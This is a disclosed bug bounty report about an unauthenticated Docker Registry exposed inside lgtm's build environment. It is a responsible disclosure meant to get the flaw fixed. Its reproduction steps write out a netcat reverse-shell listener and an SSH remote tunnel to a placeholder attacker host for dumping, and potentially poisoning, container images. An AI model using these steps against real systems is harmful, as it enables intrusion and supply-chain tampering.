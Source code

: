 # Docker Registry HTTP API v2 exposed in HTTP without authentication leads to docker images dumping and poisoning

## Report Details
- **Report ID**: 347296
- **URL**: https://hackerone.com/reports/347296
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-05-04T00:33:58.671Z
- **Disclosed**: 2020-06-06T08:35:04.183Z

## Reporter
- **Username**: thehackerish
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semmle

## Vulnerability Information
**Summary:**
Docker Registry HTTP API v2 is exposed in HTTP without authentication. An attacker can use it to dump your docker images and poison them.

**Description:**
While digging into the environment that hosts the sandboxed build container, I came across the port 5000 open on another machine (probably the host), which is used for Docker Registry (https://docs.docker.com/registry/). I was able to reach the service and dump the `lgtm/top` repository. I didn't try to upload anything because I didn't want to alter your docker images.

## Steps To Reproduce:

  1. Create a GitHub repository that has the attached file, name it .lgtm.yml and modify `ATTACKER_HOST` and `ATTACKER_PORT` to yours.
  2. set up a netcat listener: `nc -vlp ATTACKER_PORT`
  3. Add the project to lgtm, it should start building it. After some time, you should get a reverse shell.
  4. Make a remote SSH tunnel from the build container `ssh -R 5555:172.17.0.1:5000 attacker@ATTACKER_HOST -p SSH_PORT -f -N`
  5. Enter your attacker password and a SSH tunnel should be up.
  6. Using the docker_fetch tool (https://github.com/NotSoSecure/docker_fetch/), use the url http://127.0.0.1:5555 and dump the repository that you want.
  7. Additionally, you can follow this reference if you would like to test for blob uploads (https://docs.docker.com/registry/spec/api/#initiate-blob-upload) and look for this string `/v2/<name>/blobs/uploads/`. I tried to initiate an upload and it gave me the uuid of the upload, which means no restriction is made for uploads.

**NOTE**: Even if the shell is lost from the sandbox, the SSH Tunnel still works. This might mean a **sandbox escape**

## Supporting Material/References:

  *A writeup about the vulnerability in a pentest:  https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/
  *The Docker Registry Doc: https://docs.docker.com/registry/spec/api/#initiate-blob-upload

## Remediation:
1. Implement authentication to the service.
2. Use HTTPS
3. Limit the possibility of reverse shells by whitelisting only useful ports ( It might be challenging because of the purpose of the build sandbox)

## Impact

An attacker can use it to dump your docker images and poison them.

## Attachments
- 2
